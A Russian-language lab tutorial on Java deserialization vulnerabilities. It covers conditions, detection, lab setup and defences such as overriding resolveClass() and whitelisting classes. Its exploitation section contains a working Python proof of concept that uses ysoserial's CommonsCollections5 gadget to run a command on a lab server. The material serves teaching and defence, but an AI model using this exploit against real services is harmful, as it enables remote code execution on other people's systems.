 # Deserialization (Java)


# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. 

# Условия

- ОС: любая
- язык: Java
- компоненты: уязвимые библиотеки Java
- настройки: зависят от библиотеки

# Детектирование

- Класс вредоносного объекта присутствует в classpath сервера. 
- Класс вредоносного объекта ― сериализуемый или экстернализуемый.

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере. При этом вылетит ошибка согласования типов, однако код всё равно запустится. 



# Защита

- переопределение  метода resolveClass().

При чтении потока сериализованному объекту предшествует описание класса. Эта структура позволяет  реализовать свой собственный алгоритм чтения описания класса и в зависимости от имени класса решать, следует ли продолжить чтение потока. Для этого можно использовать переопределение  метода resolveClass(). Его можно использовать для выдачи исключения всякий раз, когда поток содержит неожидаемый класс. Таким образом exception выдаётся до того, как объект начинает десериализовываться. 


- Своевременное обновление библиотек.
- Использование белого листа для десериализуемых объектов. 


# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере. 

# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html
- https://docstore.mik.ua/orelly/java-ent/security/ch02_01.htm#SEC-CH-2-SECT-1.1
- https://www.ibm.com/developerworks/ru/library/se-lookahead/index.html
